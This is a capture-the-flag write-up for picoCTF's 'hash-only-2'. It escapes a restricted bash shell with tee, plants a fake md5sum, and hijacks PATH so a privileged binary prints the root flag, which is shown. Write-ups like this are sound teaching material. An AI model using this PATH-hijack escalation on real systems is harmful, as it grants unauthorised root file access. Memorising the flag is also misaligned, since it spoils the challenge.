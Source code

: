 # hash-only-2

Compared to [hash-only-1](../hash-only-1/README.md), there are some restrictions in the server.
- can't send files to the server
- can't use some commands 

```
ctf-player@pico-chall$ cd ..
-rbash: cd: restricted
ctf-player@pico-chall$ echo "test" > md5sum
-rbash: md5sum: restricted: cannot redirect output
ctf-player@pico-chall$ export PATH=/home/ctf-player:$PATH
-rbash: PATH: readonly variable
```

However, I found that I can put contents to files by using the `tee` command.

```
# replace md5sum the same as hash-only-1
ctf-player@pico-chall$ echo '#!/bin/bash' | tee md5sum
ctf-player@pico-chall$ echo 'cat "$@"' | tee -a md5sum

# export PATH and execute flaghasher in a script
ctf-player@pico-chall$ echo '#!/bin/bash' | tee exploit
ctf-player@pico-chall$ echo 'export PATH="/home/ctf-player:$PATH"' | tee -a exploit
ctf-player@pico-chall$ echo '/usr/local/bin/flaghasher' | tee -a exploit

ctf-player@pico-chall$ sh exploit
Computing the MD5 hash of /root/flag.txt.... 

picoCTF{Co-@utH0r_Of_Sy5tem_b!n@riEs_aeecb174}
```
